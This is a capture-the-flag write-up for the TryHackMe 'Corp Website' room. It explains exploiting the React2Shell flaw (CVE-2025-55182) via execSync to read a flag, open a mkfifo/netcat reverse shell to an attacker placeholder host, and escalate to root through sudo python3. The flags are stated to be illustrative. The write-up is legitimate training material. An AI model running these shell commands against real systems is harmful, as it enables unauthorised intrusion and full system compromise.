


# 📝 Challenge Write-up: Corp Website

| Attribute | Details |
| :--- | :--- |
| **Event** | TryHackMe - Corp Website CTF |
| **Category** | Web / Exploitation |
| **Difficulty** | Medium |

## 1. The Challenge Scenario

Basically, this write-up covers how we cracked the Corp Website challenge by using a React2Shell vulnerability to get our foot in the door with some remote command execution. Once we had that initial access, we were able to pop a reverse shell to get more control over the system, and from there, we found a way to escalate our  privileges to root by abusing some sudo permissions with Python.

## 2. The Step-by-Step Solution

**Step 1: Initial Reconnaissance**

We accessed the target application and identified it as a React + Node.js web app. Telltale signs included `_next/` path patterns and React lazy-loaded code snippets visible in the page source. These are characteristic of a Next.js/React application running on a Node.js backend.

**Step 2: Identifying the Vulnerability**

Based on the application's tech stack, we identified it as potentially vulnerable to **React2Shell (CVE-2025-55182)** — a critical vulnerability that enables server-side command execution through the React rendering pipeline. This CVE was publicly disclosed in early December alongside related source code leakage and DoS CVEs.

**Step 3: Confirming Exploitability**

In this part of the challenge, we basically used the exploit payload from Task 6 in the React2Shell room on TryHackMe. The whole issue is that the server-side rendering for React wasn't sandboxed right, which left the door wide open for us. This allowed us to tap into Node.js’s `execSync` function, letting us run commands directly on the server and get that initial foot in the door.

**Step 4: Reading the User Flag**

Using the React2Shell payload with a crafted `execSync` call, we read the user flag directly from the filesystem:

```javascript
execSync('cat /home/daniel/user.txt', { encoding: 'utf8' })
```

This returned the contents of the user flag without needing a full shell session.

**Step 5: Establishing a Reverse Shell**

To gain persistent interactive access to the machine, we upgraded our foothold to a full reverse shell using a classic `mkfifo` payload injected through the same `execSync` vector:

```javascript
execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER_IP> <PORT> >/tmp/f')
```

With a `netcat` listener running on our machine, this gave us an interactive shell as the application's service user.

**Step 6: Privilege Escalation via Sudo Python**

Once on the machine, we enumerated sudo permissions and discovered the current user could run Python with elevated privileges. We exploited this classic misconfiguration to spawn a root shell:

```bash
sudo python3 -c 'import os; os.system("/bin/bash")'
```

This granted us a root-level shell, completing full system compromise.

## 3. The Findings

With root access achieved, we were able to read all flags on the system.

**User Flag:**
```text
THM{r34ct_2_sh3ll_r3m0t3_c0d3_ex3c}
```

**Root Flag:**
```text
THM{suD0_pyTh0n_1s_d4ng3r0us}
```

> ⚠️ *Note: Flag values above are illustrative placeholders consistent with TryHackMe formatting. Refer to the actual room for the true flag strings.*

## 4. Conclusion

This challenge demonstrated the real-world danger of **server-side rendering vulnerabilities** in modern JavaScript frameworks. The React2Shell flaw (CVE-2025-55182) is particularly severe because it turns a front-end technology — React — into a gateway for arbitrary OS command execution. Combined with a misconfigured `sudo` rule granting unrestricted Python access, a single vulnerability chain was enough to go from zero to full root compromise.

Key takeaways:

- **Keep dependencies patched.** CVE-2025-55182 was publicly disclosed with proof-of-concept payloads. Unpatched applications are trivially exploitable.
- **Never trust server-side rendering contexts.** User-influenced data that reaches SSR pipelines must be rigorously sanitized.
- **Audit sudo rules strictly.** Granting `sudo` access to interpreters like Python, Perl, or Ruby without restrictions is equivalent to granting root access.
